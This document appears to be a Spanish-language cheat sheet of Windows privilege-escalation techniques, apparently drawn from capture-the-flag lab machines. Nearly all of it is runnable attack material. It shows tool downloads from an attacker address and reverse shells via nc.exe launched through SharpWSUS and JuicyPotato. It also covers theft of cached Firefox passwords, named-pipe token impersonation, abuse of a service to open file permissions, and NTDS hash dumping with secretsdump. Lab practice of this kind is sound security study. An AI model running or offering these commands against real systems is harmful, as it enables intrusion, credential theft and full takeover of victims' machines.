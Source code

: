 # Privesc

## Abuso del grupo WSUS Administrator

### Archivos necesarios
```null
iwr -uri http://10.10.14.2/SharpWSUS.exe -o SharpWSUS.exe
iwr -uri http://10.10.14.2/PsExec64.exe -o PsExec64.exe
iwr -uri http://10.10.14.2/nc.exe -o nc.exe
```

### Reverse Shell
```null
.\SharpWSUS.exe create /payload:"C:\Windows\Temp\Privesc\PsExec64.exe" /args:"-accepteula -s -d cmd.exe /c C:\\Windows\Temp\Privesc\\nc.exe -e cmd 10.10.14.2 443" /title:"ReverseShell"
```

## Credenciales cacheadas

### Firefox

```null
*Evil-WinRM* PS C:\Users\nikk37\AppData\Roaming\Mozilla\Firefox\Profiles\br53rxeg.default-release> dir -Force


    Directory: C:\Users\nikk37\AppData\Roaming\Mozilla\Firefox\Profiles\br53rxeg.default-release
[...snip...]
```

### Uso de firepwd.py

Primero copiar al directorio actual de trabajo el ``key4.db`` y el ``login.json``

```null
python3 firepwd.py
```

## Listar reglas de Firewall

```null
netsh advfirewall show currentprofile
```

## Abuso del privilegio SeImpersonatePrivileage

## Uso de JuicyPotato

```null
PS C:\Temp> .\JuicyPotato.exe -t * -p C:\Windows\system32\cmd.exe -l 1337 -a "/c C:\Temp\nc.exe -e cmd 10.10.16.2 443"
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 1337
....
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK
```

## Uso de Named Pipes

Para ello es necesario aprovecharse de una tarea CRON en la que otro usuario se atachée a un named pipe alojado del atacante, de forma que se pueda impersonar para ejecutar comandos como este

### Path

La estructura de llamada es así

```null
\\.\pipe\dummypipe
```

### Explotación

En caso de ser vulnerable, el script en PowerShell de ``decoder_it``, debe devolver el nombre de usuario que se ha conectado

```null
*Evil-WinRM* PS C:\Windows\System32\spool\drivers\color> .\pipeserverimpersonate.ps1
Waiting for connection on namedpipe:dummypipe
ImpersonateNamedPipeClient: 1
user=HACKBACK\hacker
OpenThreadToken:True
True
CreateProcessWithToken: False  1058
```

#### Alteración del script

```null
###we are impersonating the user, everything we do before RevertoSelf is done on behalf that user
echo "user=$user "
copy C:\Windows\System32\spool\drivers\color\rubbx.bat C:\util\scripts\spool\rubbx.bat
```

## Abuso del servicio userlogger

### Detener el servicio

```null
sc stop userlogger C:\test.txt
```

### Explotación

Pasarle como argumento un fichero con dos puntos al final. Se le asignarán privilegios de lectura y escritura para cualquier usuario

```null
C:\>sc start userlogger C:\test.txt:
```

```null
C:\>icacls test.txt
icacls test.txt
test.txt Everyone:(F)

Successfully processed 1 files; Failed processing 0 files
```

### Iniciar servicio

```null
sc start userlogger C:\Users\Administrator\Desktop\root.txt:
```

## Obtener contenido ADS

```null
more < C:\Users\Administrator\Desktop\root.txt:flag.txt
```

## Dumpeo de hashes NT

```null
impacket-secretsdump -system 20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin -ntds 20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit LOCAL
```